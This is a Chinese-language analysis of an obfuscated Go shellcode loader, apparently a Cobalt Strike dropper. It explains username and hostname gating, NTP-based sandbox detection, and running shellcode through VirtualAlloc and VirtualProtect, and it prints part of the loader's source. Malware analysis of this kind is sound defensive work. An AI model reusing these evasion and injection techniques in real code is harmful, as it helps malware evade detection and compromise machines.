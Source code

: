 下面是 17yes.go 的讲解及其源代码。

**概览一下代码：**  
常量名、变量名都被混淆。  
第 31 行，可以明显看到 CS 完整的 payload `\xfc\xe8\x89...`。

**仔细看下代码：**

2-12 行，开头引入了必要的库文件。

13-16 行，定义了 3 个常量：（更具体的见 “VirtualAlloc 函数详细解释”）  
rANPMk = 0x1000 // MEM_COMMIT 为指定的保留内存分页（memory pages）分配内存空间 (根据内存的总体大小和磁盘上的分页文件)。  
sUZcPvprXOJt = 0x2000 //MEM_RESERVE 保留进程的一部分虚拟地址空间，而无需在内存或磁盘上的分页文件（paging file）中分配任何实际的物理存储。  
rFchBCmu = 0x04 // PAGE_READWRITE 对已提交的（committed）分页区域启用 Read-only 只读 或 RW 读写 访问权限。

24 行，定义了一个函数`laiTJbWfGgsLhF`（只是定义还未被调用），将以上 3 个常量值作为实参，传入`kernel32.dll`的`VirtualAlloc`函数中。以实现以 RW 权限申请内存。

33 行，通过`user.Current()`获取到当前用户，赋值给变量`dNnhwvvKJzppv`。

36 行，判断当前用户的名称是否是`lll`，如果是则继续执行，如果不是则退出程序。

40 行，判断当前的计算机名是否是`win7`，如果是则继续执行，如果不是则退出程序。

42-50 行，先向`us.pool.ntp.org:123`发送 UDP 请求获取当前时间，延时 10 秒后，再次发送 UDP 请求获取时间，如果两次时间小于 10 秒，则退出程序（程序可能在虚拟机中加速执行），否则继续执行。

52 行，调用`laiTJbWfGgsLhF`函数，以 RW 权限申请内存。

57-62 行，将 shellcode 写入这部分内存。

64 行，调用`VirtualProtect`函数，将这部分（RW 权限申请的）内存改为 RX 权限 `//0x20 PAGE_EXECUTE_READ`

68 行，调用分配的页面区域的基址（第 25 行中`VirtualProtect`函数的返回值，赋值给了变量`CtRsyrQfyp`），执行这段 shellcode。

结束。

17yes.go 中的代码如下：  
我用`//`写了相关注释

```
package main
import (
"syscall"
"unsafe"
"fmt"
"os"
"strings"
"os/user"
"net"
"time"
"encoding/binary"
)
const (
rANPMk  = 0x1000 // MEM_COMMIT
sUZcPvprXOJt = 0x2000 //MEM_RESERVE
rFchBCmu  = 0x04 // PAGE_READWRITE
)
var (
oSxMXhR = 0
osAvWlb = syscall.NewLazyDLL("kernel32.dll")
MXJoioL = osAvWlb.NewProc("VirtualAlloc")
eDMslOPiZZj = osAvWlb.NewProc("VirtualProtect")
)
func laiTJbWfGgsLhF(MYkcuzzzRXhOgZ uintptr) (uintptr, error) {
CtRsyrQfyp, _, ndNDpWTRkKOjw := MXJoioL.Call(0, MYkcuzzzRXhOgZ, sUZcPvprXOJt|rANPMk, rFchBCmu)
if CtRsyrQfyp == 0 {
return 0, ndNDpWTRkKOjw
}
return CtRsyrQfyp, nil
}
```